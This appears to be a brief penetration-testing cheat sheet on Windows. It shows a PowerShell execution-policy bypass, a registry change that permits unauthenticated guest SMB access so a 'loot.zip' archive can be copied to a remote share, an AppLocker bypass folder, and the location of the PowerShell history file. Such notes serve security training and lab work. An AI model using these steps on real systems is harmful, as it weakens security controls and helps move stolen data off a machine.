 ```yaml
---
title: Windows
description: Windows basic.
---
```


# Windows

## PowerShell's execution policy

[PowerShell's execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

Load a powershell shell with execution policy bypassed :

```powershell
C:\> powershell -ep bypass
```

## Registry

### Edit key

To fix the following error, you need to set `AllowInsecureGuestAuth`, located in `HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters`, to `1`.

```powershell
PS C:\Users\Administrator> copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These
policies help protect your PC from unsafe or malicious devices on the network.
At line:1 char:1
+ copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

You can do it with powershell :

```powershell
PS C:\Users\Administrator> Set-Itemproperty -path 'HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters' -Name 'AllowInsecureGuestAuth' -value 1
```

## Bypass AppLocker

If `AppLocker` is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` (whitelisted by default).

## Powershell history

- ConsoleHost_history : `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
